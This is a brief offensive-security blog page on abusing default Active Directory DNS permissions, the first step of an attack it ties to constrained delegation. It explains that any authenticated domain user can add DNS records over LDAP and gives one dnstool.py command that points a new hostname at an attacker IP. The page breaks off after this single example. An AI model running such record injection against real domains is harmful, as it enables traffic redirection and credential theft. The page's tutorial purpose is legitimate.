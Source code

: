 [back](/)

### Evil DNS zone and Constrained Delegation in Active Directory

Quite often during the attack on the Active Directory it turns out that the DNS server is used with default settings.

Thus, it is possible to add DNS entry with the rights of a regular domain user. The fact is that by default for the Authenticated Users group there are no restrictions on creating DNS records, such through access to LDAP.

![Image](/img/evil_dns/1.png)

```
Example 1:

python3 dnstool.py -u 'yourdomain.ru\Tiffany.Molina' -p password --action add -r web332211.domain.ru -d attacker-ip ldap-ip
```


<div id="disqus_thread"></div>
<script>
(function() { // DON'T EDIT BELOW THIS LINE
var d = document, s = d.createElement('script');
s.src = 'https://hackitfaster-hopto-org.disqus.com/embed.js';
s.setAttribute('data-timestamp', +new Date());
(d.head || d.body).appendChild(s);
})();
</script>
<noscript>Please enable JavaScript to view the <a href="https://disqus.com/?ref_noscript">comments powered by Disqus.</a></noscript>

[back](/)